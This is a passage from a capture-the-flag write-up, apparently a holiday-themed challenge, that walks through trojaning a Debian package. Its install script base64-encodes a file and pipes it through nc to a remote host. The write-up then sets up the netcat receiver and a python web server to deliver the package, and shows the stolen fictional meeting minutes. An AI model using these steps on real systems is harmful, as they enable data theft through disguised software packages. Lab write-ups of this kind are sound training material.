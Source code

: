```
            update-alternatives --install /usr/bin/editor editor /bin/nano 40 \
                          --slave /usr/share/man/man1/editor.1.gz editor.1.gz \
                                /usr/share/man/man1/nano.1.gz
                update-alternatives --install /usr/bin/pico pico /bin/nano 10 \
                              --slave /usr/share/man/man1/pico.1.gz pico.1.gz \
                                    /usr/share/man/man1/nano.1.gz
fi

echo "`cat /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt |base64`" |nc 10.6.0.2 8000
---END---
```
We finish building the package and create the correct directory structure to match the incoming requests
```
dpkg-deb --build work/
mkdir -p pub/jfrost/backdoor
mv work.deb pub/jfrost/backdoor/suriv_amd64.deb
```

## Setup the exfiltration listener
We set `nc` to listen in port `8000` as we configured our payload and perform the decoding in another `tmux` pane.
```
nc -lvp 8000 |base64 -d |tee -a NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt
```

## Serving the malicious payload
We set `python` `http.server` module to listen on port `80` and serve the file.
```
python3 -m http.server 80

```

## Exfiltrated file
```
January 20, 2020

Meeting Location: All gathered in North Pole Municipal Building, 1 Santa Claus Ln, North Pole

Chairman Frost calls meeting to order at 7:30 PM North Pole Standard Time.

Roll call of Board members please:
Chairman Jack Frost - Present
Vice Chairman Mother Nature - Present

Superman - Present
Clarice - Present
Yukon Cornelius - HERE!
Ginger Breaddie - Present
King Moonracer - Present
Mrs. Donner - Present
Tanta Kringle - Present
Charlie In-the-Box - Here
Krampus - Growl
Dolly - Present
Snow Miser - Heya!
Alabaster Snowball - Hello
Queen of the Winter Spirits - Present

ALSO PRESENT:
                Kris Kringle
                Pepper Minstix
```